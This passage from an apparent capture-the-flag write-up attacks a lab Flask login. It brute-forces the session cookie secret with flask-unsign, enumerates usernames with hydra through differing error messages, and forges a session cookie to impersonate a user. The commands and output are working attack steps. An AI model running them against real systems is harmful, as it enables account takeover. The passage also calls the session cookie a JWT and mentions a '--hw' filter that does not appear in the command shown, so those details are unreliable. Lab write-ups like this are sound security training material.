 Based on the `_flashes` function and the backend (Python) we can assume that the server is running Flask. We can try to use a tool called `flask-unsign` to crack the signature and then we can forge our own JWT if we get the secret.
```bash
# INSTALL FLASK-UNSIGN
pip3 install flask-unsign

# CRACK OUR TOKEN
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY2F1ZSJ9.Ynen2A.8kt_JvOGzy0Muo8XOVHlicX0ghE' --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt
[*] Session decodes to: {'logged_in': True, 'username': 'caueb'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
```

Good, the secret is `secret123`, so now we can impersonate any user. We will need to enumerate some users.

### User enumeration
In the http://10.129.171.223:5000/login page we can enumerate users based on the error message. We can type any random password and If the username exists it will display "Invalid login", but if the username does not exist it shows "Invalid credentials".
Lets use `hydra` with the wordlist of [Username - Names](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt)from seclists:
```bash
$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'whatever' -s 5000 10.129.171.223 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-08 21:00:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10177 login tries (l:10177/p:1), ~637 tries per task
[DATA] attacking http-post-form://10.129.171.223:5000/login:username=^USER^&password=^PASS^:Invalid credentials
[STATUS] 714.00 tries/min, 714 tries in 00:01h, 9463 to do in 00:14h, 16 active
[5000][http-post-form] host: 10.129.171.223   login: blue   password: whatever
```
Note that I'm hiding any response with 110 words (--hw 110) to filter showing wrong credentials.

After some time we get the user `blue`. Now we can forge a token as this user to have a look at his notes.

### Forge JWT
```bash
# CREATE COOKIE
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret secret123
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yne8vQ.W8TN0te9TwEqYJtjsyooYJyCS4Q
```
